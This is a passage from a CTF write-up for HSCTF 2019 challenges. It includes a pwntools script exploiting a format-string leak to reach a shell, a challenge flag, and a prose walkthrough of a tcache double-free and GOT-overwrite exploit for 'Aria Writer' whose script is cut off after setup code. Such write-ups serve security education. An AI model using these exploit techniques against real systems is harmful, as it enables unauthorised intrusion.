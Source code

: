 ```python
# for i in range(10):
#   start()
#   sh.sendline('%{}$p'.format(1+i))
#   sh.interactive()
#   sh.close()

start()

sh.sendlineafter(': ', '%7$p')
target_addr = int(sh.recvuntil('is not a valid pointer').strip().split(' ')[0],16)-0x13a

sh.sendlineafter(': ', '{:x}'.format(target_addr))

sh.interactive()
```

flag: `hsctf{l0l-opt1mizati0ns_ar3-disabl3d}`

# Aria Writer

## Problem

Written by: NotDeGhost

Rob wants to write a song, but he doesn't know what to say. Help him write his way to a shell.

nc pwn.hsctf.com 2222

[aria-writer](/blog/2019-06-08-hsctf-writeup/Aria Writer/aria-writer)

[libc-2.27.zip](/blog/2019-06-08-hsctf-writeup/Aria Writer/libc-2.27.zip)

## Solution

This is a tcache heap challenge where we can allocate and free chunks. There's a double-free vulnerability. Using this, we can let `malloc` return an arbitrary address similar to [this](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c). First, I replaced exit_got with a ret gadget which allows us to bypass the free limit (this might not be necessary in the end). I achieved this by letting `malloc` return `exit_got` and writing to it. Then I did the same thing and allocated a chunk at `name` in the bss. Because it's not in the heap, after the `name` chunk is freed, it went into the small bin instead of the tcache list. Then using the hidden option, I dumped the content of the chunk leaking the libc_base address as the small bin is doubly linked. From there, I changed one got entry to point to one_gadget and got a shell.

Here is the exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './aria-writer'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

```